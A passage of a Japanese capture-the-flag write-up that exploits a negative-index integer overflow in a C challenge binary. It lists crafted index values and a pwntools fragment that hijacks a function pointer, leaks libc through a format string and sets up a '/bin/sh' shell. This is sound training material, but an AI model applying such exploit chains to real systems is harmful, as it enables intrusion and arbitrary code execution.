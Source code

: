 ```c

off_t get_offset(const char *s) {
  off_t offset;
  ssize_t index;

  printf("%s", s);
  if (scanf("%ld", &index) != 1)
    exit(1);

  if (index >= LLONG_MAX / SIZE) {
    puts("[-] Integer overflow");
    exit(1);
  }

  offset = index * SIZE;
  if (offset < 0 || offset >= sizeof(g_messages)) {
    puts("[-] Invalid offset");
    exit(1);
  }

  return offset;
}
```

しかし、index が ssize_t 型なので、負の値を入れることができます。SIZE を掛けた時、ちょうど g_message の後半を指すように細工すると、関数ポインタを改ざんできます。
計算が面倒なので AI に任せます。次のようにするといいらしいです。

```
有効なindex値一覧:
index = -1281023894007607744, offset = 0x200
index = -256204778801521543, offset = 0x208
index = -1537228672809129294, offset = 0x210
index = -512409557603043093, offset = 0x218
index = -1793433451610650844, offset = 0x220
index = -768614336404564643, offset = 0x228
index = -2049638230412172394, offset = 0x230
index = -1024819115206086193, offset = 0x238
index = -2305843009213693944, offset = 0x240
index = -1281023894007607743, offset = 0x248

合計 10 個の有効なindex値が見つかりました。
```

境界チェックに注意し、

```
index = -2305843009213693944, offset = 0x240
```

を使って関数ポインタを書き換えます。`win`関数が無いので、libc leak をしたいです。関数ポインタを`printf@plt`に向けます。
あとはスタックに乗ってる適当な libc アドレスから`system`を計算し、関数ポインタを`system`にして`system("/bin/sh")`を実行します。

```python
# fn_clear = plt of printf
read_message(r, -1024819115206086193, b"A" * 8 + pack(exe.plt["printf"]))

read_message(r, 0, "%9$p")
clear_all(r) # leak

libc_base = int(r.readuntil(b'1ca').decode(), 16) - 0x2a1ca
libc.address = libc_base

assert libc_base & 0xfff == 0
success(f"got libc base at {libc_base}")

# set execute command
read_message(r, 0, "/bin/sh")
```